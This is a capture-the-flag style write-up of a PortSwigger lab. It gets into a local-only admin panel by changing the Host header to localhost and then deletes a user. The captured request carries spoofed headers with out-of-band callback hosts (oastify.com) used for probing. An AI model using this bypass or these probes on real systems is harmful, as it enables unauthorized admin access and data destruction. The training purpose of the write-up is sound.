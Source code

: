## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/fa662ef2-4898-4b83-baba-5b5fb8b65002)

## Solution :

When we try to visit the admin panel at **/admin**, we get the following message.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/1abe3918-0175-4e8a-a53c-089f74060baa)

The request sent is as follows,

```http
GET /admin HTTP/2
Host: 0ab100ba037872b9829b9c550011006b.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: session=vBGYtdrjVCV4YoweJ5gxZkFNscn68Wkz; _lab=46%7cMCwCFAG5RH3bQFt%2b8YBc%2fq2vLwdCh%2bq%2fAhQE5KcrcFLUn6rgL0NxHd2jiLwzIRcvbIBlqU0RsdnO00fplnQORNpAxFwunn0Bi5NGOXOY13I5UfX2mvoZHks%2fjpndLMrSHpuCQJpGPrfaif1n9YCdfxNBonofNGCpFLGFUFmZNmed4hY%3d
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Cache-Control: no-transform
X-Real-Ip: spoofed.bo3r56oiy7e8ydl82hojb4q2zt5k3ir7.oastify.com
Referer: http://qtn6altx3mjn3sqn7wtygjvh48az8ywn.oastify.com/ref
X-Client-Ip: spoofed.vxwbeqx27rns7xusb1x3kozm8de4c40t.oastify.com
X-Forwarded-For: spoofed.5iolz0ics182s7f2wbid5ykwtnzexfl4.oastify.com
Forwarded: for=spoofed.pd65ukdwnl3mnramrvdx0ifgo7uys0gp.oastify.com;by=spoofed.pd65ukdwnl3mnramrvdx0ifgo7uys0gp.oastify.com;host=spoofed.pd65ukdwnl3mnramrvdx0ifgo7uys0gp.oastify.com
X-Originating-Ip: spoofed.k5q0mf5rfgvhfm2hjq5ssd7bg2mtkw8l.oastify.com
True-Client-Ip: spoofed.npg36ipuzjfkzpmk3tpvcgre056w40sp.oastify.com
Client-Ip: spoofed.jxkzeexq7fng7lugbpxrkcza81escx0m.oastify.com
Contact: root@waacrra3ks0tky7to2a4xpcnler5qvek.oastify.com
From: root@vpob6qp2zrfszxms31p3corm0d645vtk.oastify.com
X-Wap-Profile: http://czfsg7zj98p99ew9dizkm513auglfd32.oastify.com/wap.xml
Cf-Connecting_ip: spoofed.osk49jsv2kil2qpl6uswfhuf369x8qwf.oastify.com
```

Seems that only local users can access the admin panel.

So we can change the header **Host: 0ab100ba037872b9829b9c550011006b.web-security-academy.net** to **Host: localhost** & forward the request.

Now we can access the admin panel. 

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/30ba611e-7ea8-4ef4-8934-ab35f6e372fd)

Delete the user carlos to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/778d4aa2-31a6-47b6-9593-7c89454754b2)

